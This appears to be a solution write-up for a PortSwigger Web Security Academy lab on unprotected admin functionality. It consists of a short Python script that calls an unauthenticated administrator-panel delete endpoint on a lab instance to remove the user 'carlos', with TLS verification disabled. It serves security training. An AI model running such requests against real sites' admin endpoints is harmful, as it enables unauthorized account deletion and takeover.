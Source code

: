 # Lab: Unprotected admin functionality

Link to lab: https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality

## Solution

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = 'https://0a7500710489a668c0467766009c0096.web-security-academy.net/'

params = {
    'username': 'carlos',
}

response = requests.get(
    url + 'administrator-panel/delete',
    params=params,
    verify=False,
)
print(response.text)
```